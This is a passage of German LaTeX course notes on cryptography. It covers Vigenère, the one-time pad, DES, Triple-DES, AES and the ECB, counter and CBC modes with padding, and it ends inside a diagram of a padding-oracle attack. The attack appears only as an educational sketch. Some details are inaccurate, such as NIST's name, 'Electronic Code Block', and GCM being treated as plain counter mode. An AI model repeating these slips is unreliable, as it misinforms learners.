                    Um die Verschlüsselung von Hand zu bilden kann das Vigenere-Quadrat von Nutzen sein:
                    \begin{table}[H]
                    	\centering
                    	\tiny
                    	\begin{tabular}{|c||c|c|c|c|c|c|c|c|c|c|c|c|c|c|c|c|c|c|c|c|c|c|c|c|c|c|}
\hline
\textbf{A} & \textbf{A} & \textbf{B} & \textbf{C} & \textbf{D} & \textbf{E} & \textbf{F} & \textbf{G} & \textbf{H} & \textbf{I} & \textbf{J} & \textbf{K} & \textbf{L} & \textbf{M} & \textbf{N} & \textbf{O} & \textbf{P} & \textbf{Q} & \textbf{R} & \textbf{S} & \textbf{T} & \textbf{U} & \textbf{V} & \textbf{W} & \textbf{X} & \textbf{Y} & \textbf{Z} \\ \hline \hline
\textbf{A} & A & B & C & D & E & F & G & H & I & J & K & L & M & N & O & P & Q & R & S & T & U & V & W & X & Y & Z \\ \hline
\textbf{B} & B & C & D & E & F & G & H & I & J & K & L & M & N & O & P & Q & R & S & T & U & V & W & X & Y & Z & A \\ \hline
\textbf{C} & C & D & E & F & G & H & I & J & K & L & M & N & O & P & Q & R & S & T & U & V & W & X & Y & Z & A & B \\ \hline
\textbf{D} & D & E & F & G & H & I & J & K & L & M & N & O & P & Q & R & S & T & U & V & W & X & Y & Z & A & B & C \\ \hline
\textbf{E} & E & F & G & H & I & J & K & L & M & N & O & P & Q & R & S & T & U & V & W & X & Y & Z & A & B & C & D \\ \hline
\textbf{F} & F & G & H & I & J & K & L & M & N & O & P & Q & R & S & T & U & V & W & X & Y & Z & A & B & C & D & E \\ \hline
\textbf{G} & G & H & I & J & K & L & M & N & O & P & Q & R & S & T & U & V & W & X & Y & Z & A & B & C & D & E & F \\ \hline
\textbf{H} & H & I & J & K & L & M & N & O & P & Q & R & S & T & U & V & W & X & Y & Z & A & B & C & D & E & F & G \\ \hline
\textbf{I} & I & J & K & L & M & N & O & P & Q & R & S & T & U & V & W & X & Y & Z & A & B & C & D & E & F & G & H \\ \hline
\textbf{J} & J & K & L & M & N & O & P & Q & R & S & T & U & V & W & X & Y & Z & A & B & C & D & E & F & G & H & I \\ \hline
\textbf{K} & K & L & M & N & O & P & Q & R & S & T & U & V & W & X & Y & Z & A & B & C & D & E & F & G & H & I & J \\ \hline
\textbf{L} & L & M & N & O & P & Q & R & S & T & U & V & W & X & Y & Z & A & B & C & D & E & F & G & H & I & J & K \\ \hline
\textbf{M} & M & N & O & P & Q & R & S & T & U & V & W & X & Y & Z & A & B & C & D & E & F & G & H & I & J & K & L \\ \hline
\textbf{N} & N & O & P & Q & R & S & T & U & V & W & X & Y & Z & A & B & C & D & E & F & G & H & I & J & K & L & M \\ \hline
\textbf{O} & O & P & Q & R & S & T & U & V & W & X & Y & Z & A & B & C & D & E & F & G & H & I & J & K & L & M & N \\ \hline
\textbf{P} & P & Q & R & S & T & U & V & W & X & Y & Z & A & B & C & D & E & F & G & H & I & J & K & L & M & N & O \\ \hline
\textbf{Q} & Q & R & S & T & U & V & W & X & Y & Z & A & B & C & D & E & F & G & H & I & J & K & L & M & N & O & P \\ \hline
\textbf{R} & R & S & T & U & V & W & X & Y & Z & A & B & C & D & E & F & G & H & I & J & K & L & M & N & O & P & Q \\ \hline
\textbf{S} & S & T & U & V & W & X & Y & Z & A & B & C & D & E & F & G & H & I & J & K & L & M & N & O & P & Q & R \\ \hline
\textbf{T} & T & U & V & W & X & Y & Z & A & B & C & D & E & F & G & H & I & J & K & L & M & N & O & P & Q & R & S \\ \hline
\textbf{U} & U & V & W & X & Y & Z & A & B & C & D & E & F & G & H & I & J & K & L & M & N & O & P & Q & R & S & T \\ \hline
\textbf{V} & V & W & X & Y & Z & A & B & C & D & E & F & G & H & I & J & K & L & M & N & O & P & Q & R & S & T & U \\ \hline
\textbf{W} & W & X & Y & Z & A & B & C & D & E & F & G & H & I & J & K & L & M & N & O & P & Q & R & S & T & U & V \\ \hline
\textbf{X} & X & Y & Z & A & B & C & D & E & F & G & H & I & J & K & L & M & N & O & P & Q & R & S & T & U & V & W \\ \hline
\textbf{Y} & Y & Z & A & B & C & D & E & F & G & H & I & J & K & L & M & N & O & P & Q & R & S & T & U & V & W & X \\ \hline
\textbf{Z} & Z & A & B & C & D & E & F & G & H & I & J & K & L & M & N & O & P & Q & R & S & T & U & V & W & X & Y \\ \hline
                    	\end{tabular}
                    	\caption{Vigenere-Quadrat}
                    \end{table}
                % end
                
                \paragraph{Geheimnis}
                    \begin{itemize}
                    	\item Der geheime Schlüssel.
                    \end{itemize}
                % end
                
                \paragraph{Beispiel}
                    \begin{itemize}
                    	\item Geheimer Schlüssel: \( k = \texttt{PASSWORT} \)
                    \end{itemize}
                
                    \subparagraph{Verschlüsselung}
	                    \begin{enumerate}
	                    	\item[] Klartext: \( m = \texttt{HALLOWELTICHBINKLARTEXT} \)
	                    	\item Erweitern des geheimen Schlüssels: \( k' = \texttt{PASSWORTPASSWORTPASSWOR} \)
	                    	\item Substitution: \( m \cdot k' = \texttt{WADDKKVEIIUZXWEDAAJLALK} \qquad(\texttt{H} \rightarrow \texttt{W}, \quad\texttt{A} \rightarrow \texttt{A}, \quad\dots) \)
	                    	\item[] Ciphertext: \( c = \texttt{WADDKKVEIIUZXWEDAAJLALK} \)
	                    \end{enumerate}
                    % end
                    
                    \subparagraph{Entschlüsselung}
	                    \begin{enumerate}
	                    	\item[] Ciphertext: \( c = \texttt{WADDKKVEIIUZXWEDAAJLALK} \)
	                    	\item Erweitern des geheimen Schlüssels: \( k' = \texttt{PASSWORTPASSWORTPASSWOR} \)
	                    	\item Rücksubstitution: \( c / k' = \texttt{HALLOWELTICHBINKLARTEXT} \qquad(\texttt{W} \rightarrow \texttt{H}, \quad\texttt{A} \rightarrow \texttt{A}, \quad\dots) \)
	                    	\item[] Klartext: \( m = \texttt{HALLOWELTICHBINKLARTEXT} \)
	                    \end{enumerate}
                    % end
                % end
            % end
        % end

        \subsection{Zwischen klassischen und modernen Verfahren}
            \subsubsection{One-Time-Pad nach Shannon}
                \paragraph{Verfahren}
                    Das One-Time-Pad-Verfahren nach Shannon arbeitet ähnlich wie die Vigenere-Chiffre, nur über Bits \( \{ 0, 1 \} \) wobei \( \textrm{Bitlänge}(k) = \textrm{Bitlänge}(m) \) gelten muss. Jedes Schlüsselbit wird zufällig generiert und jeder Schlüssel darf nur einmal verwendet werden.
                    
                    Zuerst wird der Schlüssel \( k \) zufällig generiert mit der obigen Einschränkung, dann ist die Verschlüsselung \( \Enc(k, m) \) wie folgt definiert (mit \(\oplus\) als bitweises exklusives Oder, XOR):
                    \begin{equation*}
	                    \Enc(k, m) = k \oplus m
                    \end{equation*}
                    Zur Entschlüsselung wird dies ähnlich verwendet:
                    \begin{equation*}
	                    \Dec(k, c) = k \oplus c
                    \end{equation*}
                % end
                
                \paragraph{Geheimnis}
                    \begin{itemize}
                    	\item Der Schlüssel \(k\).
                    \end{itemize}
                % end
                
                \paragraph{Sicherheit}
                    Ist \( c_i = 0 \), so sind die folgenden Möglichkeiten gleich wahrscheinlich:
                    \begin{equation*}
	                    \begin{cases*}
		                    m_i = 0 \land k_i = 0 \\
		                    m_i = 1 \land k_i = 1
	                    \end{cases*}
                    \end{equation*}
                    Analog gilt dies für \( c_i = 1 \). Damit ist also die perfekte Sicherheit des One-Time-Pads gegeben.
                % end
                
                \paragraph{Korrektheit}
                    Seien \( k, m \in \{ 0, 1 \} ^ * \) beliebige Bitfolgen. Dann gilt für die Ver- und Entschlüsselung:
                    \begin{align*}
	                      &\, \Dec(k, \Enc(k, m)) \\
	                    = &\, k \oplus (k \oplus m) \\
	                    = &\, (k \oplus k) \oplus m \tag{Assoziativität} \\
	                    = &\, 0 \oplus m \tag{XOR-Definition} \\
	                    = &\, m
                    \end{align*}
                    Somit ist das One-Pad-Verfahren korrekt.
                    
                    \qed
                % end
                
                \paragraph{Integrität}
                    Das One-Time-Pad prüft nicht die Integrität des Ciphertextes. Das bedeutet, ein Angreifer kann jederzeit die Daten ändern und die Verschlüsselung funktioniert weiterhin.
                % end
                
				\paragraph{Beispiel}
					\begin{itemize}
						\item Geheimer Schlüssel: \( k = \texttt{01010101} \)
					\end{itemize}
					
					\subparagraph{Verschlüsselung}
						\begin{enumerate}
							\item[] Klartext: \( m = \texttt{11110000} \)
							\item Verschlüsselung: \( \Enc(k, m) = \texttt{01010101} \oplus \texttt{11110000} = \texttt{10100101} \)
							\item[] Ciphertext: \( c = \texttt{10100101} \)
						\end{enumerate}
					% end
					
					\subparagraph{Entschlüsselung}
						\begin{enumerate}
							\item[] Ciphertext: \( c = \texttt{10100101} \)
							\item Entschlüsselung: \( \Dec(k, c) = \texttt{01010101} \oplus \texttt{10100101} = \texttt{11110000} \)
							\item[] Klartext: \( m = \texttt{11110000} \)
						\end{enumerate}
					% end
                % end
            % end
        % end

        \subsection{Moderne Verschlüsselungsverfahren}
            \subsubsection{Data Encryption Standard (DES)}
                \begin{itemize}
                	\item Im Auftrag des National Institute of Science and Technology (NIST) von IBM entwickelt.
                \end{itemize}
                \begin{figure}[H]
                	\centering
                	\begin{tikzpicture}[align = center, nc/.style = { minimum width = 1.5cm, minimum height = 1.5cm, rounded corners }]
	                	\node [nc, draw, label = below:{Verschlüsselung}] (enc) {\(\textrm{DES}\)};
	                	\node [right = 2 of enc] (c) {Ciphertext \\ \( C \in \{0, 1\}^{64} \)};
	                	\node [nc, draw, right = 2 of c, label = below:{Entschlüsselung}] (dec) {\(\textrm{DES}^{-1}\)};
	                	
	                	\node [left = of enc] (m1) {Nachricht \\ \(m \in \{0, 1\}^{64}\)};
	                	\node [above = of enc] (k1) {geheimer \\ Schlüssel \\ \(k \in \{0, 1\}^{56} \)};
	                	
	                	\node [right = of dec] (m2) {Nachricht \\ \(m \in \{0, 1\}^{64}\)};
	                	\node [above = of dec] (k2) {geheimer \\ Schlüssel \\ \(k \in \{0, 1\}^{56}\)};
	                	
	                	\draw [->] (enc) -- (c);
	                	\draw [->] (c) -- (dec);
	                	\draw [->] (m1) -- (enc);
	                	\draw [->] (k1) -- (enc);
	                	\draw [->] (dec) -- (m2);
	                	\draw [->] (k2) -- (dec);
	                	
	                	\draw [bend left] (k1) to node[below]{Symmetrie \\ gleicher Schlüssel} (k2);
                	\end{tikzpicture}
                	\caption{Data Encryption Standard}
                \end{figure}
                \begin{itemize}
                	\item DES ist ein Blockcipher, d.h. die Ein- und Ausgabelänge ist fest auf \(64\) Bit gesetzt und kann nicht geändert werden. Ebenfalls ist die Schlüssellänge fest auf \(56\) gesetzt.
                	\item Für die Korrektheit gilt \( \textrm{DES}^{-1}(k, \,\textrm{DES}(k, m)) = m \)
                \end{itemize}
            
                \paragraph{Sicherheit}
	                \begin{itemize}
	                	\item Eine Schlüssellänge von \(56\) Bits gilt heute als nicht mehr sicher.
	                	\item Daher wird DES heute nur noch in der Form \enquote{Triple-DES} verwendet, womit ein Sicherheitsniveau von \(2 \cdot 56 = 112\) Bits erreicht wird:
		                	\begin{equation*}
			                	\textrm{3DES}(k_1 \vert k_2 \vert k_3, m) = \textrm{DES}(k_3, \textrm{DES}^{-1}(k_2, \textrm{DES}(k_1, m)))
		                	\end{equation*}
	                \end{itemize}
	                \begin{figure}[H]
	                	\centering
	                	\begin{tikzpicture}[align = center, nc/.style = { draw, minimum width = 1.5cm, minimum height = 1.5cm, rounded corners }]
	                		\node (m) {Nachricht \\ \( m \in \{ 0, 1 \} ^ { 64 } \)};
	                		\node [nc, right = 1 of m] (d1) {\(\textrm{DES}\)};
	                		\node [nc, right = 2 of d1] (d2) {\(\textrm{DES}^{-1}\)};
	                		\node [nc, right = 2 of d2] (d3) {\(\textrm{DES}\)};
	                		\node [right = 1 of d3] (c) {Ciphertext \\ \( c \in \{ 0, 1 \} ^ { 64 } \)};
	                		\node [above = 1 of d1] (k1) {\( k_1 \in \{ 0, 1 \} ^ {56} \)};
	                		\node [above = 1 of d2] (k2) {\( k_2 \in \{ 0, 1 \} ^ {56} \)};
	                		\node [above = 1 of d3] (k3) {\( k_3 \in \{ 0, 1 \} ^ {56} \)};
	                		
	                		\draw [->] (m) -- (d1);
	                		\draw [->] (d1) -- (d2);
	                		\draw [->] (d2) -- (d3);
	                		\draw [->] (d3) -- (c);
	                		\draw [->] (k1) -- (d1);
	                		\draw [->] (k2) -- (d2);
	                		\draw [->] (k3) -- (d3);
	                	\end{tikzpicture}
	                	\caption{Triple-DES}
	                \end{figure}
                % end
            % end

            \subsubsection{Advanced Encryption Standard (AES)}
                \begin{itemize}
                	\item In einem öffentlichen Wettbewerb im Jahr 2000 von der NIST bestimmt
                \end{itemize}
				\begin{figure}[H]
					\centering
					\begin{tikzpicture}[align = center, nc/.style = { minimum width = 1.5cm, minimum height = 1.5cm, rounded corners }]
						\node [nc, draw, label = below:{Verschlüsselung}] (enc) {\(\textrm{AES}\)};
						\node [right = 2 of enc] (c) {Ciphertext \\ \( C \in \{0, 1\}^{128} \)};
						\node [nc, draw, right = 2 of c, label = below:{Entschlüsselung}] (dec) {\(\textrm{AES}^{-1}\)};
						
						\node [left = of enc] (m1) {Nachricht \\ \(m \in \{0, 1\}^{128}\)};
						\node [above = of enc] (k1) {geheimer \\ Schlüssel \\ \(k \in \{0,1\}^{128} \cup \{0,1\}^{192} \cup \{0,1\}^{256} \)};
						
						\node [right = of dec] (m2) {Nachricht \\ \(m \in \{0, 1\}^{128}\)};
						\node [above = of dec] (k2) {geheimer \\ Schlüssel \\ \(k \in \{0,1\}^{128} \cup \{0,1\}^{192} \cup \{0,1\}^{256} \)};
						
						\draw [->] (enc) -- (c);
						\draw [->] (c) -- (dec);
						\draw [->] (m1) -- (enc);
						\draw [->] (k1) -- (enc);
						\draw [->] (dec) -- (m2);
						\draw [->] (k2) -- (dec);
						
						\draw [bend left] (k1) to node[below]{Symmetrie \\ gleicher Schlüssel} (k2);
					\end{tikzpicture}
					\caption{Advanced Encryption Standard}
				\end{figure}
				\begin{itemize}
					\item AES ist wie DES ist ein Blockcipher, d.h. die Ein- und Ausgabelänge ist fest auf \(128\) Bit gesetzt und kann nicht geändert werden. Der Schlüssel kann \(128\), \(192\) oder \(256\) Bits lang sein (AES-128, AES-192, AES-256).
					\item Für die Korrektheit gilt \( \textrm{AES}^{-1}(k, \,\textrm{AES}(k, m)) = m \)
				\end{itemize}
			
				\paragraph{Sicherheit}
					AES gilt momentan als ungebrochen und ist mit AES-192 und AES-256 für die höchste Geheimhaltungsstufe freigegeben. Daher ist AES der de-facto-Standard und sollte gegenüber DES bevorzugt werden.
				% end
            % end

            \subsubsection{Blockcipher}
                \textit{Blockcipher} wie DES und AES haben immer eine feste Ein-/Ausgabelänge. Daher müssen für diese Cipher spezielle Verfahren entwickelt werden, um auch große Datenblöcke verschlüsseln zu können. Auch müssen kleinere Datenblöcke verschlüsselt werden können (Sichtwort \textit{Padding}).

                \paragraph{Electronic Code Block (ECB)}
                    Bei dem \textit{ECB-Modus} wird die Eingabe in mehrere Blöcke aufgeteilt und die Blöcke getrennt verschlüsselt (mit \( m = m_1 \vert m_2 \vert m_3 \vert \cdots \vert m_n \) und \( c = c_1 \vert c_2 \vert c_3 \vert \cdots \vert c_n \)):
                    \begin{figure}[H]
                    	\centering
						\begin{tikzpicture}[align = center, nc/.style = { draw, minimum width = 1.5cm, minimum height = 1.5cm, rounded corners }]
                        	\node [nc] (nc1) {};
                        	\node [nc, right = 2 of nc1] (nc2) {};
                        	\node [nc, right = 2 of nc2] (nc3) {};
                        	\node [right = 1 of nc3] (ncd) {\(\cdots\)};
                        	\node [nc, right = 1.5 of ncd] (ncn) {};
                        	\node [left = 0.5 of nc1] (k1) {\(k\)};
                        	\node [left = 0.5 of nc2] (k2) {\(k\)};
                        	\node [left = 0.5 of nc3] (k3) {\(k\)};
                        	\node [left = 0.5 of ncn] (kn) {\(k\)};
                        	\node [above = 1 of nc1] (m1) {\(m_1\)};
                        	\node [above = 1 of nc2] (m2) {\(m_2\)};
                        	\node [above = 1 of nc3] (m3) {\(m_3\)};
                        	\node [above = 1 of ncn] (mn) {\(m_n\)};
                        	\node [below = 1 of nc1] (c1) {\(c_1\)};
                        	\node [below = 1 of nc2] (c2) {\(c_2\)};
                        	\node [below = 1 of nc3] (c3) {\(c_3\)};
                        	\node [below = 1 of ncn] (cn) {\(c_n\)};
                        	\node [left = 1.5 of m1] (m) {\(m =\)};
                        	\node [left = 1.5 of c1] (c) {\(c =\)};
                        	
                        	\draw [->] (m1) -- (nc1);
                        	\draw [->] (nc1) -- (c1);
                        	\draw [->] (k1) -- (nc1);
                        	\draw [->] (m2) -- (nc2);
                        	\draw [->] (nc2) -- (c2);
                        	\draw [->] (k2) -- (nc2);
                        	\draw [->] (m3) -- (nc3);
                        	\draw [->] (nc3) -- (c3);
                        	\draw [->] (k3) -- (nc3);
                        	\draw [->] (mn) -- (ncn);
                        	\draw [->] (ncn) -- (cn);
                        	\draw [->] (kn) -- (ncn);
                    	\end{tikzpicture}
                    	\caption{Electronic Code Block}
                    \end{figure}
                
                    Formalisiert funktioniert der ECB-Modus wie folgt:
                    \begin{description}
                    	\item[Verschlüsselung] \( c_j = \Enc(k, m_j) \)
                    	\item[Entschlüsselung] \( m_j = \Dec(k, c_j) \)
                    \end{description}
                
					\subparagraph{Sicherheit}
						Da nur kleine Blöcke jeweils einzeln verschlüsselt werden, wird viel Struktur beibehalten. Dadurch ist es möglich, z.B. bei einem Bild die grobe Struktur des Bildes, wenn auch nicht jedes Details, zu erkennen. Außerdem werden gleiche Nachrichtenblöcke immer in den gleichen Ciphertext verschlüsselt.
					% end
                % end

                \paragraph{ECB mit Zähler (GCM)}
					Bei dem \textit{Galois/Counter Mode} (ECB mit Zähler) wird für jeden ECB-Block ein Zähler verschlüsselt, der anschließend mit der Nachricht XOR-Verknüpft wird. Dadurch unterscheidet sich jeder Block von jedem anderen Block:
					\begin{figure}[H]
						\centering
						\begin{tikzpicture}[align = center, nc/.style = { draw, minimum width = 1.5cm, minimum height = 1.5cm, rounded corners }]
							\node [nc] (nc1) {};
							\node [nc, right = 2 of nc1] (nc2) {};
							\node [nc, right = 2 of nc2] (nc3) {};
							\node [right = 1 of nc3] (ncd) {\(\cdots\)};
							\node [nc, right = 1.5 of ncd] (ncn) {};
							\node [left = 0.5 of nc1] (k1) {\(k\)};
							\node [left = 0.5 of nc2] (k2) {\(k\)};
							\node [left = 0.5 of nc3] (k3) {\(k\)};
							\node [left = 0.5 of ncn] (kn) {\(k\)};
							\node [above = 1 of nc1] (n1) {\(1\)};
							\node [above = 1 of nc2] (n2) {\(2\)};
							\node [above = 1 of nc3] (n3) {\(3\)};
							\node [above = 1 of ncn] (nn) {\(n\)};
							\node [below = 0.5 of nc1] (xor1) {\(\oplus\)};
							\node [below = 0.5 of nc2] (xor2) {\(\oplus\)};
							\node [below = 0.5 of nc3] (xor3) {\(\oplus\)};
							\node [below = 0.5 of ncn] (xorn) {\(\oplus\)};
							\node [left = 1 of xor1] (m1) {\(m_1\)};
							\node [left = 1 of xor2] (m2) {\(m_2\)};
							\node [left = 1 of xor3] (m3) {\(m_3\)};
							\node [left = 1 of xorn] (mn) {\(m_n\)};
							\node [below = 0.5 of xor1] (c1) {\(c_1\)};
							\node [below = 0.5 of xor2] (c2) {\(c_2\)};
							\node [below = 0.5 of xor3] (c3) {\(c_3\)};
							\node [below = 0.5 of xorn] (cn) {\(c_n\)};
							
							\draw [->] (n1) -- (nc1);
							\draw [->] (n2) -- (nc2);
							\draw [->] (n3) -- (nc3);
							\draw [->] (nn) -- (ncn);
							\draw [->] (k1) -- (nc1);
							\draw [->] (k2) -- (nc2);
							\draw [->] (k3) -- (nc3);
							\draw [->] (kn) -- (ncn);
							\draw [->] (nc1) -- (xor1);
							\draw [->] (nc2) -- (xor2);
							\draw [->] (nc3) -- (xor3);
							\draw [->] (ncn) -- (xorn);
							\draw [->] (m1) -- (xor1);
							\draw [->] (m2) -- (xor2);
							\draw [->] (m3) -- (xor3);
							\draw [->] (mn) -- (xorn);
							\draw [->] (xor1) -- (c1);
							\draw [->] (xor2) -- (c2);
							\draw [->] (xor3) -- (c3);
							\draw [->] (xorn) -- (cn);
						\end{tikzpicture}
						\caption{Galois/Counter Mode, ECB mit Zähler}
					\end{figure}
					Der Zähler muss dabei für jeden Block verschieden sein, auch über mehrere Verschlüsselungen hinweg.
                % end

                \paragraph{Cipher Block Chaining (CBC)}
                    Der weit verbreitete und sichere \textit{Cipher Block Chaining}-Modus (CBC) sieht vor, dass vor jeder Blockverschlüsselung der Nachrichtenblock mit einem Vektor XOR-Verknüpft. Für den ersten Block ist dies ein zufälliger Initialisierungsvektor (IV), bei den Nachfolgenden Blöcken ist es der Ciphertext des vorhergehenden Blocks. Der IV wird am Ende dem gesamten Ciphertext vorangestellt.
                    \begin{figure}[H]
                    	\centering
                        \begin{tikzpicture}[align = center, nc/.style = { draw, minimum width = 1.5cm, minimum height = 1.5cm, rounded corners }]
                        	\node [nc] (nc1) {};
                        	\node [nc, right = 2 of nc1] (nc2) {};
                        	\node [nc, right = 2 of nc2] (nc3) {};
                        	\node [right = 1 of nc3] (ncd) {\(\cdots\)};
                        	\node [nc, right = 1.5 of ncd] (ncn) {};
                        	\node [left = 0.5 of nc1] (k1) {\(k\)};
                        	\node [left = 0.5 of nc2] (k2) {\(k\)};
                        	\node [left = 0.5 of nc3] (k3) {\(k\)};
                        	\node [left = 0.5 of ncn] (kn) {\(k\)};
                        	\node [above = 0.5 of nc1] (xor1) {\(\oplus\)};
                        	\node [above = 0.5 of nc2] (xor2) {\(\oplus\)};
                        	\node [above = 0.5 of nc3] (xor3) {\(\oplus\)};
                        	\node [above = 0.5 of ncn] (xorn) {\(\oplus\)};
                        	\node [above = 1 of xor1] (m1) {\(m_1\)};
                        	\node [above = 1 of xor2] (m2) {\(m_2\)};
                        	\node [above = 1 of xor3] (m3) {\(m_3\)};
                        	\node [above = 1 of xorn] (mn) {\(m_n\)};
                        	\node [below = 1 of nc1] (c1) {\(c_1\)};
                        	\node [below = 1 of nc2] (c2) {\(c_2\)};
                        	\node [below = 1 of nc3] (c3) {\(c_3\)};
                        	\node [below = 1 of ncn] (cn) {\(c_n\)};
                        	\node [left = 0.5 of xor1] (iv) {IV};
                        	
                        	\draw [->] (m1) -- (xor1);
                        	\draw [->] (m2) -- (xor2);
                        	\draw [->] (m3) -- (xor3);
                        	\draw [->] (mn) -- (xorn);
                        	\draw [->] (xor1) -- (nc1);
                        	\draw [->] (xor2) -- (nc2);
                        	\draw [->] (xor3) -- (nc3);
                        	\draw [->] (xorn) -- (ncn);
                        	\draw [->] (nc1) -- (c1);
                        	\draw [->] (nc2) -- (c2);
                        	\draw [->] (nc3) -- (c3);
                        	\draw [->] (ncn) -- (cn);
                        	\draw [->] (k1) -- (nc1);
                        	\draw [->] (k2) -- (nc2);
                        	\draw [->] (k3) -- (nc3);
                        	\draw [->] (kn) -- (ncn);
                        	
                        	\draw [->] (iv) -- (xor1);
                        	
                        	\coordinate [right = 1 of c1] (needle1);
                        	\draw (c1) -- (needle1);
                        	\draw [->] (needle1) |- (xor2);
                        	
                        	\coordinate [right = 1 of c2] (needle2);
                        	\draw (c2) -- (needle2);
                        	\draw [->] (needle2) |- (xor3);
                        	
                        	\coordinate [right = 0.9 of c3] (needle3);
                        	\draw (c3) -- (needle3);
                        	\draw [->] (needle3) |- (ncd);
                        	
                        	\coordinate [right = 0.4 of ncd] (needled);
                        	\draw (ncd) -- (needled);
                        	\draw [->] (needled) |- (xorn);
                    	\end{tikzpicture}
                    	\caption{Cipher Block Chaining}
                    \end{figure}
                
                    Zur Entschlüsselung muss das gleiche Verfahren rückwärts angewandt werden:
                    \begin{figure}[H]
                    	\centering
                    	\begin{tikzpicture}[align = center, nc/.style = { draw, minimum width = 1.5cm, minimum height = 1.5cm, rounded corners }]
	                    	\node [nc] (nc1) {\(^{-1}\)};
	                    	\node [nc, right = 2 of nc1] (nc2) {\(^{-1}\)};
	                    	\node [nc, right = 2 of nc2] (nc3) {\(^{-1}\)};
	                    	\node [right = 1 of nc3] (ncd) {\(\cdots\)};
	                    	\node [nc, right = 1.5 of ncd] (ncn) {\(^{-1}\)};
	                    	\node [left = 0.5 of nc1] (k1) {\(k\)};
	                    	\node [left = 0.5 of nc2] (k2) {\(k\)};
	                    	\node [left = 0.5 of nc3] (k3) {\(k\)};
	                    	\node [left = 0.5 of ncn] (kn) {\(k\)};
	                    	\node [below = 0.5 of nc1] (xor1) {\(\oplus\)};
	                    	\node [below = 0.5 of nc2] (xor2) {\(\oplus\)};
	                    	\node [below = 0.5 of nc3] (xor3) {\(\oplus\)};
	                    	\node [below = 0.5 of ncn] (xorn) {\(\oplus\)};
	                    	\node [below = 1 of xor1] (m1) {\(m_1\)};
	                    	\node [below = 1 of xor2] (m2) {\(m_2\)};
	                    	\node [below = 1 of xor3] (m3) {\(m_3\)};
	                    	\node [below = 1 of xorn] (mn) {\(m_n\)};
	                    	\node [above = 1 of nc1] (c1) {\(c_1\)};
	                    	\node [above = 1 of nc2] (c2) {\(c_2\)};
	                    	\node [above = 1 of nc3] (c3) {\(c_3\)};
	                    	\node [above = 1 of ncn] (cn) {\(c_n\)};
	                    	\node [left = 0.5 of xor1] (iv) {IV};
	                    	
	                    	\draw [<-] (m1) -- (xor1);
	                    	\draw [<-] (m2) -- (xor2);
	                    	\draw [<-] (m3) -- (xor3);
	                    	\draw [<-] (mn) -- (xorn);
	                    	\draw [<-] (xor1) -- (nc1);
	                    	\draw [<-] (xor2) -- (nc2);
	                    	\draw [<-] (xor3) -- (nc3);
	                    	\draw [<-] (xorn) -- (ncn);
	                    	\draw [<-] (nc1) -- (c1);
	                    	\draw [<-] (nc2) -- (c2);
	                    	\draw [<-] (nc3) -- (c3);
	                    	\draw [<-] (ncn) -- (cn);
	                    	\draw [->] (k1) -- (nc1);
	                    	\draw [->] (k2) -- (nc2);
	                    	\draw [->] (k3) -- (nc3);
	                    	\draw [->] (kn) -- (ncn);
	                    	
	                    	\draw [->] (iv) -- (xor1);
	                    	
	                    	\coordinate [right = 1 of c1] (needle1);
	                    	\draw (c1) -- (needle1);
	                    	\draw [->] (needle1) |- (xor2);
	                    	
	                    	\coordinate [right = 1 of c2] (needle2);
	                    	\draw (c2) -- (needle2);
	                    	\draw [->] (needle2) |- (xor3);
	                    	
	                    	\coordinate [right = 0.9 of c3] (needle3);
	                    	\draw (c3) -- (needle3);
	                    	\draw [->] (needle3) |- (ncd);
	                    	
	                    	\coordinate [right = 0.4 of ncd] (needled);
	                    	\draw (ncd) -- (needled);
	                    	\draw [->] (needled) |- (xorn);
                    	\end{tikzpicture}
                    	\caption{Cipher Block Chaining (Entschlüsselung)}
                    \end{figure}
                
                    Formalisiert funktioniert der CBC-Modus wie folgt:
	                \begin{description}
		                \item[Verschlüsselung] \( c_j = \Enc(k, m_j \oplus c_{j - 1}) \) mit \( c_0 = \text{IV} \)
		                \item[Entschlüsselung] \( m_j = \Dec(k, c_j) \oplus c_{j - 1} \) mit \(c_0 = \text{IV}\)
		            \end{description}
		            Zusätzlich muss der Initialisierungsvektor mitgesendet werden (\( C = (\text{IV} \,\vert\, c_1 \vert \cdots \vert c_n) \)).
                % end

                \paragraph{CBC-Padding}
                    \begin{itemize}
                    	\item Ist der letzte Nachrichtenblock kürzer, muss dieser aufgefüllt werden (\textit{Padding}).
                        	\begin{itemize}
                        		\item Fehlt 1 Byte, wird 1 Mal \texttt{0x01} angehängt.
                        		\item Fehlen 2 Byte, wird 2 Mal \texttt{0x02} angehängt.
                        		\item Fehlen 3 Byte, wird 3 Mal \texttt{0x03} angehängt.
                        		\item Fehlen 4 Byte, wird 4 Mal \texttt{0x04} angehängt.
                        		\item usw.
                        	\end{itemize}
                    	\item Fehlen keine Byte, muss 16 Mal \texttt{0x10} angehängt werden, das Padding nach dem Entschlüssel korrekt entfernt werden kann.
                    \end{itemize}
                
                    \subparagraph{Angriffsszenario}
	                    \begin{figure}[H]
	                    	\centering
							\begin{tikzpicture}[align = center]
                                \node [scale = 2.5, label = above:{Alice}, alice] (alice) {};
                                \node [scale = 2.5, right = 4 of alice, label = above:{Eve}, criminal, evil] (eve) {};
                                \node [scale = 2.5, right = 4 of eve, label = above:{Bob}, bob] (bob) {};
								
								\coordinate [below = 0.5 of alice] (a);
								\coordinate [below = 0.5 of eve] (b);
								\coordinate [below = 0.5 of bob] (c);
								\coordinate [below = 1 of c] (d);
								\coordinate [below = 1 of b] (e);
								\coordinate [below = 1 of e] (f);
								\coordinate [below = 1 of d] (g);
								\coordinate [below = 1 of g] (h);
								\coordinate [below = 1 of f] (i);
								\coordinate [below = 0.5 of h] (A);
								\coordinate [below = 0.5 of i] (B);
								\coordinate [below = 1.5 of i] (j);
								\coordinate [below = 1.5 of h] (k);
								\coordinate [below = 1 of k] (l);
								\coordinate [below = 1 of j] (m);
								
								\draw [->, shorten >= 5pt] (a) -- node[above]{CBC-Verschlüsselung \\ \( (\text{IV},\, c_1,\, c_2,\, c_3) \)} (b);
								\draw [->, shorten <= 5pt] (b) -- node[above]{\( (\text{IV},\, c_1^*,\, c_2^*) \)} (c);
								\draw [->] (d) -- node[above]{Fehler/OK} (e);
								\path (e) -- node[left]{Versuche \\ verschiedene \\ Werte} (f);
								\draw [->] (f) -- node[above]{\( (\text{IV},\, c_1^*,\, c_2^*) \)} (g);
								\draw [->] (h) -- node[above]{Fehler/OK} (i);
								\path (A) -- node{\( \cdots \)} (B);
								\draw [->] (j) -- node[above]{\( (\text{IV},\, c_{1}^*,\, c_2^*) \)} (k);
								\draw [->] (l) -- node[above]{Fehler/OK} (m);
								\node [below = 0.5 of m] {lernt (Teile der) \\ Nachricht von Alice};
							\end{tikzpicture}
